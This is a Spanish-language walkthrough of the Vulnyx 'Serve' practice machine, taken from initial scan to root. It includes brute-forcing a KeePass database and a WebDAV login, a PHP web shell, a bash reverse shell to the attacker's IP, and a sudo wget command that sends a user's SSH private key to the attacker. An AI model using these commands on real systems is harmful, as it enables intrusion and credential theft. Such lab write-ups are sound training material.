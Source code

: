 ```yaml
---
layout: post
title: "Serve"
date: 2024-04-16 11:20:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Serve </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#serve"> Vulnyx</a></td> </tr>
</table>

<br>

![serve](/notas/public/img/vulnyx/serve/serve_pc.png){:.margin}

**1\.** Verificamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![serve](/notas/public/img/vulnyx/serve/arp-scan.png){:.margin}


**2\.** Escanemos puertos abiertos en el host objetivo.

`sudo nmap -p -sS -sCV --open --min-rate=5000 -n -Pn 192.168.1.12 -oN report_scan`

![serve](/notas/public/img/vulnyx/serve/nmap.png){:.margin}

**3\.** Visitando el servicio apache, no tenemos nada importante.

`http://192.168.1.12`

![serve](/notas/public/img/vulnyx/serve/80.png){:.margin}

**4\.** Fuzzeamos en busca de directorios.

`gobuster dir -u http://191.168.1.12/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

![serve](/notas/public/img/vulnyx/serve/gobuster.png){:.margin}

- Vistamos la primera ruta y nos dice que no tenemos permisos.

`http://192.168.1.12/javascript/`

- En la segunda ruta tampoco se ve nada importante.

`http://192.168.1.12/secrets/`

- En el tercer directorio, tenemos un panel login, pero no tenemos credenciales.

`http://192.168.1.12/webdav/`

![serve](/notas/public/img/vulnyx/serve/webdav.png){:.margin}

**5\.** Seguimos fuzzeando, ahora contemplamos la busqueda de ficheros.

`gobuster dir -u http://192.168.1.12/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![serve](/notas/public/img/vulnyx/serve/gobuster_files.png){:.margin}

**6\.** Revisamos el fichero notes haber que nos muestra.

`http://192.168.1.12/notes.txt`

![serve](/notas/public/img/vulnyx/serve/notes_txt.png){:.margin}

**7\.** Fuzzeamos el directorio secret, tambien contemplamos ficheros kdbx.

`gobuster dir -u http://192.168.1.12/secrets/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,kdbx`

![serve](/notas/public/img/vulnyx/serve/kdbx.png){:.margin}

**8\.** Nos descargamos el fichero db.kdbx visitando a esta url.

`http://192.168.1.12/secrets/db.kdbx`

**9\.** Creamos un hash que represente la contraseña del fichero.

`ls`

`keepass2john db.kdbx > kepass.txt`

![serve](/notas/public/img/vulnyx/serve/keepass2john.png){:.margin}

**10\.** Aplicamos bruteforce al hash para obtener la contraseña. 

`john --wordlist=/usr/share/wordlists/rockyou.txt kepass.txt`

![serve](/notas/public/img/vulnyx/serve/john.png){:.margin}

**11\.** Abrimos keepass y asu vez abrimos la base de datos db.kdbx .

-   pasos para tener keepass:

```
    https://keepassxc.org/
    chmod +x KeePassXC-2.7.7-x86_64.AppImage
    ./KeePassXc-2.7.7-x86_64.AppImage & disown
```

![serve](/notas/public/img/vulnyx/serve/open_keepass.png){:.margin}

**12\.** Abrimos la nota, tenemos credenciales para webdav. 

![serve](/notas/public/img/vulnyx/serve/open_admin.png){:.margin}

_- No sabemos el numero de empleado para reemplazar las X._
![serve](/notas/public/img/vulnyx/serve/keepass_show_cred.png){:.margin}

**13\.** Creamos un diccionario reemplazando cada X por un numero.

`crunch 9 9 -t w3bd4v%%% -o dict.txt`

![serve](/notas/public/img/vulnyx/serve/crunch.png){:.margin}

**14\.** Usamos hydra para bruteforcear el panel login de webdav.

`hydra -l admin -P dict.txt -f 192.168.1.12 http-get /webdav`

![serve](/notas/public/img/vulnyx/serve/hydra.png){:.margin}

_- Ya con credenciales accedemos a webdav; está vacio._

![serve](/notas/public/img/vulnyx/serve/log_webdav.png){:.margin}

**15\.** Creamos un archivo para mediante un parámetro en la url poder ejecutar comandos.

`echo "<?php system($_GET['cmd']);?>" > cmd.php`

![serve](/notas/public/img/vulnyx/serve/echo.png){:.margin}

**16\.** Lo subimos al servidor apache.

`curl --digest --user 'admin:w3bd4v513' -T 'cmd.php' 'http://192.168.1.12/webdav/'`

![serve](/notas/public/img/vulnyx/serve/curl.png){:.margin}

**17\.** Probamos si funciona ejecutando un comando al azar.

`http://102.168.1.12/webdav/cmd.php?cmd=id`

![serve](/notas/public/img/vulnyx/serve/id.png){:.margin}

**18\.** Nos ponemos en escucha en en puerto.

`sudo nc -nlvp 443`

![serve](/notas/public/img/vulnyx/serve/nc.png){:.margin}

**19\.** Nos enviamos una reverse-shell a nuestro nc.

`http://192.168.1.12/webdav/cmd.php?cmd=bash -c "bash -i>%26/dev/tcp/192.168.1.9/443 0>%261"`

![serve](/notas/public/img/vulnyx/serve/reverse_shell.png){:.margin}

_- Obtenemos la conexión a la máquina:_

![serve](/notas/public/img/vulnyx/serve/connected_nc.png){:.margin}

**20\.** Revisamos permisos sudo disponibles.

`sudo -l`

![serve](/notas/public/img/vulnyx/serve/sudo_l.png){:.margin}

**21\.** Nos ponemos en escucha en otro puerto, y usando wget nos enviamos el contenido del idrsa del usuario teo.

`sudo -u teo /usr/bin/wget --post-file=/home/teo/.ssh/id_rsa 192.168.1.9:4444`

![serve](/notas/public/img/vulnyx/serve/idrsa_nc.png){:.margin}

**22\.** Copiamos y guardamos la idrsa en un fichero.

`nano id_rsa`

![serve](/notas/public/img/vulnyx/serve/nano_idrsa.png){:.margin}

**23\.** Utilizamos [RSAcrack](https://github.com/d4t4s3c/RSAcrack) para crackear la contraseña.

`RSAcrack -w /usr/share/wordlists/rockyou.txt -k id_rsa`

![serve](/notas/public/img/vulnyx/serve/rsacrack.png){:.margin}

**24\.** Ahora accedemos por ssh como el usuario teo proporcionando la contraseña obtenida.

`ssh -i id_rsa teo@192.168.1.12`

![serve](/notas/public/img/vulnyx/serve/ssh.png){:.margin}

**25\.** Revisamos permisos sudo del usuario, vemos que podemos ejecutar el binario 'bro' como root.

`sudo -l`

![serve](/notas/public/img/vulnyx/serve/teo_sudo_l.png){:.margin}

**26\.** Si ejecutamos este binario, nos dice que ejecutemos como 'bro curl'.

`sudo bro`

![serve](/notas/public/img/vulnyx/serve/bro.png){:.margin}

**27\.** Una vez ejecutado, al final(:) nos lanzamos una bash. 

`!/bin/bash`

![serve](/notas/public/img/vulnyx/serve/sudo_bro_puntos.png)
![serve](/notas/public/img/vulnyx/serve/sudo_bro_bash.png)

**28\.** Ya logrado el super-usuario en la máquina, finalizamos obteniendo la flag de root. 

`cat /root/root.txt`

![serve](/notas/public/img/vulnyx/serve/flag.png)

<br>

<span class="finish">_Finalizado._</span>